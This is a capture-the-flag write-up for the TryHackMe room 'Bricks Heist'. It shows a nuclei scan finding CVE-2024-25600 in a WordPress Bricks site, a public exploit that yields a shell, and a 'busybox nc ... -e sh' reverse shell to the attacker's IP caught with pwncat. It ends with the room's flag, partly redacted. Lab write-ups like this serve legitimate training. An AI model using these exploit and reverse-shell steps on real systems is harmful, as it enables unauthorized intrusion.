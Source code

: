 # TryHack3M: Bricks Heist

<div style="display: flex; justify-content: center;">
  <img src="/posts/thm/tryhack3mbricksheist_logo.png" alt="HTB" style="width: 30%;">
</div>

# Room description

Room: https://tryhackme.com/r/room/tryhack3mbricksheist

Crack the code, command the exploit! Dive into the heart of the system with just an RCE CVE as your key.

Difficulty: **Easy**

# Write-up
```shell
$ nuclei -target bricks.thm
......
[CVE-2024-25600] [http] [critical] https://bricks.thm/wp-json/bricks/v1/render_element
......
```

search CVE-2024-25600 exploit
https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

```shell
$ python3 CVE-2024-25600.py            
Traceback (most recent call last):
  File "/home/kali/Desktop/exp.py", line 13, in <module>
    from alive_progress import alive_bar
ModuleNotFoundError: No module named 'alive_progress'

$ pip3 install alive_progress
```
Exploit
```shell
python3 CVE-2024-25600.py -u https://bricks.thm/
...
[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm/
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

Shell> busybox nc 10.11.74.102 9001 -e sh
```
use "BusyBox nc -e" method upgrage to new shell

Listener: use pwncat to catching a victim reverse shell
```shell
$ pip install pwncat-cs
$ pwncat-cs -lp 9001
(local) pwncat$ back
(remote) apache@tryhackme:/data/www/default$ ls
6xxxxa.txt  wp-activate.php       wp-content         wp-mail.php
index.php                             wp-admin              wp-cron.php        wp-settings.php
kod                                   wp-blog-header.php    wp-includes        wp-signup.php
license.txt                           wp-comments-post.php  wp-links-opml.php  wp-trackback.php
phpmyadmin                            wp-config-sample.php  wp-load.php        xmlrpc.php
readme.html                           wp-config.php         wp-login.php
(remote) apache@tryhackme:/data/www/default$ cat 6xxxxa.txt 
THM{fl46_6xxxxa}
```


## Answer the questions below

What is the content of the hidden .txt file in the web folder?\

`THM{fl46_6xxxxa}`
